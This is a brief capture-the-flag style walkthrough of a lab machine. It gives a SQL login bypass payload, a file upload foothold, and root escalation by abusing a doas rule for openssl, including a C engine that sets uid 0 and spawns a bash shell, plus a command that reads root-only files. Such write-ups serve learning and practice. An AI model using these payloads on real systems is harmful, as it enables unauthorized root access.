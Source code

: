 
## Initial Foothold

1. Port 445 
2. Dirsearch "/management "and sql login auth bypass payload "admin' #" username param.

## user

1. File upload

## root

1. doas.conf permit nopass plot_admin as root cmd openssl

## Exploit

doas openssl enc -in /root/root.txt

or

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

simply create malicious c file complie it and run.

doas openssl req -engine ./lib.so

